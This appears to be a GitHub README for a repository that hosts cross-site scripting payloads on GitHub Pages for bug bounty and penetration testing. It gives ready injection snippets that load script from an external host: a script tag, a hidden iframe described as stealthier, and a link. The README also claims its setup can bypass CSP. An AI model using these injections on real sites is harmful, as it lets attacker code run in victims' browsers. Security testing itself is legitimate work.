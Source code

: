 # XSS Payload Host (GitHub Pages)

This repository hosts XSS payloads via GitHub Pages. It is useful for security researchers, bug bounty hunters, or penetration testers to demonstrate and execute Cross-Site Scripting (XSS) payloads on vulnerable websites.

## Features

- Hosts external XSS scripts via GitHub Pages
- Bypasses CSP in some cases (depending on target site)
- Works with `<script src>`, `<iframe>`, and `<img>`-based injection
- Easy to use for PoC (Proof-of-Concept)

---

##  How to Use


Use this GitHub Pages setup to host my XSS payloads for testing real-world vulnerabilities during bug bounty hunting. When I find a vulnerable parameter or input field that allows HTML/JS injection, I inject a <script src> or <iframe> pointing to my hosted payload like

<script src="https://yogsec.github.io/xss-test/"></script>

Or, for stealthier attacks or to bypass certain restrictions, I use:

<iframe src="https://yogsec.github.io/xss-test/" style="display:none"></iframe>

Or

<a href="https://yogsec.github.io/xss-test/">Click Here</a>
